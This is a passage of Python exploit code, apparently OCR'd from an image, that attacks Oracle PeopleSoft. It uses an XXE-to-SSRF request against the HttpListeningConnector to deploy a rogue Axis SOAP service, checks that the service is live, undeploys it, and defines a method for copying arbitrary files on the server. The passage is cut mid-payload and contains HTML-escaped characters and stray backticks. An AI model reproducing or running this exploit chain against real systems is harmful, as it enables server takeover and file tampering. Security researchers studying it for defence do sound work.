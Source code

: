 ```
              &lt;/ContentSection&gt;
           &lt;/ContentSections&gt;
        &lt;/IBRequest&gt;
        """ % self.url_service(payload)
        r = self.post(
            '/PSIGW/HttpListeningConnector',
            data=self.pxml(data),
            headers=`{`
                'Content-Type': 'application/xml'
            `}`
        )

    def service_check(self):
        """Verifies that the service is correctly installed.
        """
        r = self.get('/pspc/services')
        return self.service_name in r.text

    def service_deploy(self):
        self.xxe_ssrf(self.soap_service_deploy())

        if not self.service_check():
            raise RuntimeError('Unable to deploy service')

        o('+', 'Service deployed')

    def service_undeploy(self):
        if not self.local_port:
            return

        self.xxe_ssrf(self.soap_service_undeploy())

        if self.service_check():
            o('-', 'Unable to undeploy service')
            return

        o('+', 'Service undeployed')

    def service_send(self, data):
        """Send data to the Axis endpoint.
        """
        return self.post(
            '/pspc/services/%s' % self.service_name,
            data=data,
            headers=`{`
                'SOAPAction': 'useless',
                'Content-Type': 'application/xml'
            `}`
        )

    def service_copy(self, path0, path1):
        """Copies one file to another.
        """
        data = """
        &lt;?xml version="1.0" encoding="utf-8"?&gt;
        &lt;soapenv:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xmlns:api="http://127.0.0.1/Integrics/Enswitch/API"
        xmlns:xsd="http://www.w3.org/2001/XMLSchema"
        xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"&gt;
        &lt;soapenv:Body&gt;
        &lt;api:copy
        soapenv:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/"&gt;
            &lt;in0 xsi:type="xsd:string"&gt;%s&lt;/in0&gt;
```